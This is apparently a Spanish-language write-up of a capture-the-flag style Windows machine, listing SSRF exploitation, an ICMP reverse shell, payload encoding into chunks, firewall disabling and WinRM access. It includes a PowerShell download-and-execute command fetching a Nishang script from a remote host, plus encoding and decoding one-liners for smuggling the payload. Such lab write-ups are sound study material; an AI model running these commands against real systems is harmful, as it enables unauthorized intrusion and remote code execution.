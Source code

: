 ## Tenicas utilizadas
- SSFR(**server side request forgery**)
- ICMP reverse shell(**Firewall bypassing**)
- Alternate data streams(**ADS**)
- Firewall evasion(**Firewall rules manipulation**)
## Procedimiento
- Fuzzear la web
- Explotar el SSFR 
- Descargar el recurso de powershell en nishang(**Invoke-PowerShellTcp.ps1**). Copiar y pegar la linea que nos interesa.
- Descargar e interpretar el script en PS de la siguiente manera ``powershell IEX(New-Object Net.WebClient).downloadString('$IP')``
- Entablar una revershell a través de ICMP con PS.
- Convertir todo el archivo a iconv, de la siguiente manera ``cat $archivo | iconv -t utf-161le | base64 -w 0;echo`` Y, guardarlo en un archivo.
- Usamos **fold** para separarlo por cadenas, asi ``fold $archivo | sponge $archivo``. Esto, con la finalidad de ir metiendo la cadena por partes a alguien archivo del sistema(**Que crearemos nosotros**)
- Bash scripting <-
![[Pasted image 20221030235724.png]]
- Correr el script en python para ponernos en escucha y mandarnos una reverse shell por ICMP
- Decodear el archivo que construimos anteriormente, de la siguiente manera ``$filecontent = Get-Content C:\Temp\$archivo; $decode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($filecontent)); $decode > C:\Temp\$archivoDecodeado``
- Llamar al archivo ``powershell C:\Temp\$archivoDecodeado``
- Aprovecharnos del script que se ejecuta en intervalos de tiempo para volvar lo que hay en el escritorio de trabajo del usuario
![[Pasted image 20221031001423.png]]
- Buscar por archivos ocultos y procedemos al leerlos
![[Pasted image 20221031001852.png]]
- Desactivamos el firewall para poder visualizar los puertos internos
![[Pasted image 20221031002858.png]]
- Nos contectamos por winRM

 
